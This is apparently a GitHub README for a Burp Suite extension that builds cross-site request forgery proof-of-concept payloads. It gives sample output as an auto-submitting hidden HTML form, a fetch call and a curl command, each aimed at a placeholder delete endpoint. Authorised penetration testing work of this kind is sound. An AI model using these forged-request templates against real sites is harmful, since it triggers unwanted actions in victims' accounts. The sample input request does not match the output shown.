


# 🛡️ CSRF PoC Generator - Burp Suite Extension

A powerful and user-friendly Burp Suite extension that automatically generates **Cross-Site Request Forgery (CSRF) Proof-of-Concept (PoC)** payloads in multiple formats (HTML form, JavaScript Fetch API, and cURL). Ideal help for penetration testers and bug bounty hunters.

---



## 📦 Features

✅ Generate CSRF PoCs directly from Burp Suite requests.
✅Automatically extracts parameters from URL query string (GET) or request body (POST).  
✅ Support for multiple formats:
  - HTML Form
  - JavaScript Fetch API
  - cURL Command  
✅ UI features:
  - Format selector
  - Syntax highlighting (optional)
  - Copy to Clipboard
  - Auto-submit toggle
  - Preview in browser
  - Save as HTML  
✅ Handles both **GET** and **POST** methods  
✅ Extracts all form parameters automatically

---

## 📥 Installation Guide

### ✅ Requirements

- Burp Suite (Community or Professional)
- Jython standalone JAR (e.g., [Download Jython 2.7.2](https://www.jython.org/download))
- `csrf-poc-generator.py` (this extension file)

### 🧠 Optional (for syntax highlighting)

- Download `rsyntaxtextarea.jar` from [RSyntaxTextArea Releases](https://github.com/bobbylight/RSyntaxTextArea/releases)
- This enables code highlighting in the UI.

---

### 🛠️ Step-by-Step Installation in Burp Suite

1. **Launch Burp Suite**

2. Go to **Extensions > Extensions Settings > Python Environment**  
   Click `Select file` and choose the **Jython standalone JAR** you downloaded.

3. Go to **Extensions > Installed > See Downloaded Bup Extensions**  
   Click `Add`  
   - Extension Type: **Python**
   - Select file: Browse and select `csrf-poc-generator.py`

4. (Optional) Under **Options > Include Library JARs**, add:
   - `rsyntaxtextarea.jar` if syntax highlighting is desired.

5. Once loaded, you should see **"CSRF PoC Generator"** listed under the Extensions tab.

---

## ⚙️ How to Use (Step-by-Step)

1. **Capture or send a request** using **Proxy** >HTTP history, **Repeater** or **Intruder**.

2. **Right-click** on the request.

3. Select **Extensions**>**"Generate CSRF PoC"** from the context menu.

4. A new window will pop up with:
   - The generated CSRF PoC in the selected format
   - Dropdown to choose format: HTML, JS Fetch API, or cURL
   - Checkbox to enable/disable Auto-submit (HTML only)
   - Buttons to:
     - Copy PoC to Clipboard
     - Preview in Browser
     - Save as HTML
     - Close Window

---



## 📋 Example
---

Suppose you hava a POST requests with the following paramaters:-

```html
POST /progile HTTP/1.1
Host: targetsite.com

username=alice&action=update&token=abc123
```

### 🔹 HTML Form Output

```html
<form id="csrfForm" action="http://example.com/delete" method="POST">
    <input type="hidden" name="id" value="42" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.getElementById('csrfForm').submit();
</script>
```

### 🔹 JavaScript Fetch API Output

```javascript
fetch("http://example.com/delete", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    body: "id=42"
});
```

### 🔹 cURL Command Output

```bash
curl -X POST -d "id=42" "http://example.com/delete"
```

## 📄 License

This project is licensed under the [MIT License](LICENSE).
